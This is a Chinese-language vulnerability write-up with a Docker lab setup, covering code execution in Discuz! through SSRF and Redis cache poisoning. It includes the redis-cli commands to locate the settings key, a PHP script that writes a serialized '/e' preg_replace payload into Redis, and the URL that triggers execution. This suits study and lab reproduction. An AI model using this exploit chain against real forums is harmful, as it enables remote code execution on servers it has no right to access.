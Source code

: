 # Discuz!利用SSRF+Redis缓存应用导致有条件代码执行
## 0x00漏洞简介
当dz设置使用缓存后，初始化时会把缓存内容加入全局变量$_G.而在调用缓存的地方source/fucntion/function_core.php中:
```
function output_replace($content) {
        ...
        if(...){
        ....
        $content = preg_replace($_G['setting']['output']['preg']['search'], $_G['setting']['output']['preg']['replace'],$content);
        }
        return $content;
}
```
其中，关键点的两个变量我们都可以通过redis修改:
```
$_G['setting']['output']['preg']['search']=”/.*/e”;
$_G['setting']['output']['preg']['replace']=”phpinfo();”;
```
dz使用redis时，全局变量$_G[‘setting’]放在xxxx_setting中的，其中前缀就是前面config_global.php中的prefix的值.也可以在redis-cli中通过如下命令查看：
```
keys *          #查看所有键
keys *_setting  #模糊查询的方式查找匹配的键
```
得到键名后通过以下方式修改本地缓存：
```
<?php
$a['output']['preg']['search']['plugins'] = "/.*/e";
$a['output']['preg']['replace']['plugins'] = "phpinfo();";
$a['rewritestatus']['plugins']=1;
$setting = serialize($a);
$redis = new Redis();
$redis->connect('127.0.0.1',6379);
$redis->set("kQbXlj_setting",$setting);
?>
```
复写缓存后访问如下地址就能发现成功getshell:
```
/discuz/forum.php?mod=ajax&inajax=yes&action=getthreadtype
```
## 0x01环境搭建
###获取镜像
环境搭建共使用三个镜像：MySQL、Redis和安装过phpredis的Discuz!  
其中MySQL和Redis的镜像可用以下命令从官方获取：
```
docker pull mysql
docker pull redis
```
鉴于国外源的镜像仓库速度缓慢且有时容易中断无响应，建立通过[DaoCloud](https://www.daocloud.io/)拉取镜像

[安装过phpredis的Discuz!下载地址](http://pan.baidu.com/s/1nvGm46d)

从discuz.tar.gz恢复出Discuz!镜像：

```
gzip -dc discuz.tar.gz | docker load
```
###运行镜像
```
docker run --name dz-mysql -e MYSQL_ROOT_PASSWORD=root -d mysql

docker run --name dz-redis -d redis

docker run --name dz-ssrf --link dz-mysql:mysql -p 8888:80 -d dz-redis-init apache2 "-DFOREGROUND"
```
访问127.0.0.1:8888进行Discuz!的安装

安装过后将config/config_global.php中redis的地址和端口改为redis容器的地址和端口（可用docker inspect dz-redis查看IP）

在后台中 全局 -> 性能优化 -> 内存优化 中查看redis是否被启用，若已启用则搭建完成。
